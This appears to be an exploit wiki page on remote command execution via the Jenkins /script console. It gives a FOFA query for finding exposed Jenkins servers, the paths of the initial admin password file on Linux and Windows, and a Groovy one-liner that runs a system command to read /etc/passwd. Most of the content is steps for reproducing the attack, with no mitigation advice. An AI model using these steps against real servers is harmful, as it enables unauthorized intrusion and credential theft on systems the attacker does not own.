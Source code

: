 ```yaml
---
title: Jenkins script remote command execution vulnerability
---
```


# Jenkins script remote command execution vulnerability

## Vulnerability Description

Jenkins logs in to access the /script page, where there is a command execution vulnerability, which causes the server to be invaded when there is an unauthorized situation.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Jenkins</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">
<a-button href="https://fofa.info/result?qbase64=YXBwPSJKZW5raW5zIg%3D%3D">app="Jenkins"</a-button>
</a-checkbox>

## Vulnerability reappears

The account password exists at:

```bash
Linux: /var/lib/jenkins/secrets/initialAdminPassword
Windows: C:\Users\RabbitMask\.jenkins\secrets\initialAdminPassword
```

Log in to the background, or access without authorization

```bash
https://xxx.xxx.xxx.xxx/script
```

Execute system commands in the script command module

```bash
println 'cat /etc/passwd'.execute().text
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629510961976-6518a8a9-cd7d-46b0-9bc5-67c07a1f9d7f.png)